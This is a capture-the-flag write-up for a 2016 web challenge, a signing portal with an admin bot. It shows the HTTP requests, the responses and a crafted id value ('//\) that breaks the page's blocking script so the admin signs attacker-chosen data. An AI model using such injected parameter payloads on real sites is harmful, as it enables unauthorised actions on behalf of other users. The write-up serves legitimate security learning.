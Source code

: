 # CBPM (web 300)

The participants were given an online portal which had several parts.
Sign by Yourself (users could sign any data with a key)
See List of Signatures (The list of user’s signed data were shown)
Sign by Administrator (Sending any data to admin to sign)
Get the flag (getting flag by proper admin sign)
After spending some time on the task, we realized the workflow. The important consequences:
1. Signing could not possible due to JavaScript snippet code.
2. By removing JavaScript code manually, the code signing was possible.
3. Admin signed everything, but the results were not shown to the users.
4. The question asked participant to sign their team number by admin.
5. The signing KEY was stored in cookie without HttpOnly flag.
Attack scenario: In the beginning, we tried to find a XSS vulnerability. By leveraging XSS, it could possible to force admin send their KEY to us, but after some test we were not able to exploit admin blindly. So after some time, we realized that workflow had a problem:

When a user wanted to sign a data, following request was sent:

```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D
And the response was:
HTTP/1.1 200 OK
Server: nginx/1.6.1
Date: Sun, 18 Dec 2016 11:08:27 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1407

<!doctype html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta http-equiv="x-ua-compatible" content="ie=edge">

    <title>ExtraSecure - Wait & Sign</title>
    <link href="css/bootstrap.min.css" rel="stylesheet">
    <script src="js/index.js"></script>
    <script src="js/cookie.js"></script>
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=";
    </script>
</head>
<body>
<div class="container">
    <div class="card">
        <h1 class="card-header">Signing in <i id="time">10</i> seconds...</h1>
        <p class="card-block">Please be patient... The content will be signed with your key soon and you will be
            redirected to the <i>list</i> page to view the results.</p>
    </div>
</div>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='
        };
        postForm('/sign_and_store.php', body);
    });
</script>
</body>
</html>
```
Based on the response:
1. The JavaScript code at the bottom of response, prevented to sign data and redirected user to the home page.
2. `KEY` was gathered by parsing cookie.
3. `ID` was reflected in post data.



Interestingly, when we gave our data to admin to sign, following HTTP request were sent:
```
[POST DATA]
---
content=60&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%26content%3D60
---
```
URL decoded data:
```
content=60&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=&url=http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=&content=184
```
The link was similar to our data sign link. However, we had realized that JavaScript code prevented to sign data, as a result, admin was not able to sign anything yet!
So we had to find a way to disable the JavaScript code, and at the same time, not corrupting post data. The first string we came up was:
```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%5C
```
Which disabled the JavaScript code. However, it corrupted post data as it’s seen:
```
<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=\";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=\'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```
Some after, we found magical string:
```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%27%2f%2f%5c
```
Which represents `'//\`. At the same time, it disables JavaScript code and doesn’t corrupt post data:
```
<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='//\";
</script>

<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='//\'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```
As a consequence, we sent our payload to admin and waited for his sign:
[POST DATA]
```
---
content=148&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%27%2f%2f%5c%26content%3D148
---
```

//Voorivex
https://twitter.com/yshahinzadeh
The admin signed our data, we entered it and grabbed the flag :)
